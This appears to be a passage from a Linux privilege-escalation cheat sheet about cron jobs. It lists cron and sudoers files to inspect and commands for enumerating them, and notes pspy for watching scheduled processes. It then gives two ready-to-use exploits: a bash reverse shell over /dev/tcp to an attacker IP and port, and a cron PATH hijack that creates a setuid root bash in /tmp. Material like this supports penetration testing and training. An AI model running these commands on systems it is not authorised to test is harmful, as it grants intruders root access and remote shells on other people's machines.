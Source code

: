 ## Scheduled tasks

### Cron jobs

Check if you have access with write permission on these files.   
Check inside the file, to find other paths with write permissions.   
```bash
$cat /etc/crontab
```
```powershell
/etc/init.d
/etc/cron*
/etc/crontab
/etc/cron.allow
/etc/cron.d 
/etc/cron.deny
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
/etc/sudoers
/etc/exports
/etc/anacrontab
/var/spool/cron
/var/spool/cron/crontabs/root

crontab -l
ls -alh /var/spool/cron;
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny*
```

You can use [pspy](https://github.com/DominicBreuker/pspy) to detect a CRON job.

```powershell
# print both commands and file system events and scan procfs every 1000 ms (=1sec)
./pspy64 -pf -i 1000 
```
####Cron job Bash exploit
Overwrite the Bash script with the following if you have write permissions:
```bash
#!/bin/bash		
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1  # amend <IP> and <PORT>
```
Setup a Netcat listener and wait for the cron job to execute the script.

####Cron job PATH environment variable exploit
Run lse.sh and check for “Can we write to any paths present in cron jobs”.
Create the following script matching the name of the cron job in /tmp:
```bash
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```
